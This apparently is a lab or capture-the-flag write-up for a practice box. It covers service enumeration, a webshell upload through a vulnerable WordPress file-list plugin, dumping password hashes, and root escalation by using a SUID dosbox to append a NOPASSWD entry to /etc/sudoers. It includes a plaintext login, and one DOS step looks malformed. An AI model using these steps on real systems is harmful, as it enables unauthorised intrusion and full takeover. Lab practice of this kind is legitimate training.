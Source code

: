 # Box: 192.168.150.105

---

## System Info
- **IP:** 192.168.150.105  
- **OS/Tech:** Ubuntu, Apache 2.4.46 (PHP 7.4.10), MariaDB 10.3, Python 3.8.5 (Werkzeug 1.0.1), Nginx 1.18.0, Samba smbd 4

---

## Credentials
- **User:** `commander`  
- **Password:** CommanderKeenVorticons1990

---

## Service Enumeration (`nmap -sC -sV`)
| Port     | State | Service    | Version                                     |
|----------|-------|------------|---------------------------------------------|
| **22**   | open  | ssh        | OpenSSH 8.3                                 |
| **80**   | open  | http       | Apache 2.4.46 (PHP 7.4.10) — WordPress + Simple File List v4.2.2 |
| **5000** | open  | http       | Werkzeug/1.0.1 Python/3.8.5                 |
| **13000**| open  | http       | Nginx 1.18.0 (admin/admin login)            |
| **36445**| open  | netbios-ssn| Samba smbd 4 (anonymous)                    |
| **3306** | open  | mysql      | MariaDB 10.3 (unauthorized)                 |

---

## Initial Exploits

### 1. WordPress Plugin: Simple File List v4.2.2
- **Path:** `/wp-content/plugins/simple-file-list/`  
- **Vuln:** Arbitrary file upload  
- **Exploit:** Upload `shell.php` → get shell as `www-data`

### 2. WP Config & Database
- **Locate** `wp-config.php` for DB credentials  
- **Dump** `wp_users`:
  ```sql
  SELECT ID, user_login, user_pass FROM wp_users;
  ```
  | ID | user_login | user_pass                          |
  |----|------------|------------------------------------|
  | 1  | admin      | $P$BoktR9dJnCOMHiLEnYkPfS1Ae/7vPq/ |

- **Hash** not cracked via John (`--format=phpass`).

---

## Post-Exploitation

### VNC Access
- **VNC** on `127.0.0.1:5901` (no display on box)  
- **Port forward**:
  ```bash
  ssh -4 -f -N -L 5901:127.0.0.1:5901 commander@192.168.150.105
  ```
- **Connect**:
  ```bash
  vncviewer localhost:5901
  ```

### Privilege Escalation via SUID `dosbox`
- **Binary:** `/usr/bin/dosbox` (SUID root)  
- **GTFOBins**: use autoexec to launch host shell  

#### Steps
1. In VNC terminal, create `/tmp/dos.conf`:
   ```ini
   [autoexec]
   shell
   ```
2. Run:
   ```bash
   /usr/bin/dosbox -conf /tmp/dos.conf
   ```
3. At `Z:\>` prompt, mount and edit sudoers:
   ```dos
   mount C /etc
   C:
   EOF > sudoers
   echo "commander ALL=(ALL) NOPASSWD: ALL" >> sudoers
   ```
4. Back in Linux shell:
   ```bash
   sudo su
   whoami  # → root
   ```

---
